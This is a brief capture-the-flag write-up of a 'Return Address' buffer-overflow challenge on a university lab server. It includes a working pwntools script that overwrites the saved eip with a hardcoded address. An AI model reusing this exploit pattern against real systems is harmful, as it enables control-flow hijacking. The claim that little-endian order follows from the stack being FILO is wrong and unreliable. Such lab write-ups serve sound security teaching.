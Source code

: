 # Challenge `Return Address` writeup

- Vulnerability:
  - Buffer Overflow
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port `23154`
- Impact:
  - Allows attacker to control `return`s

## Steps to reproduce

1. The `return` of a function is controlled by the stored value of `eip`
2. We can overflow the buffer enough to modify the memory of this stored value, after the `gets` function
3. Since the stack is a `first-in-last-out (FILO)` structure, we need to write the bytes in `little-endian`

The code used was:

```py
from pwn import *

session = remote("mustard.stt.rnl.tecnico.ulisboa.pt", "23154", timeout=1000)
session.recvuntil('.')

eip_address = 0xffffd04c
buffer_address = 0xffffd036

session.send(b'1'* (eip_address - buffer_address) + b'\xf1\x86\x04\x08')
print(session.recvall())
```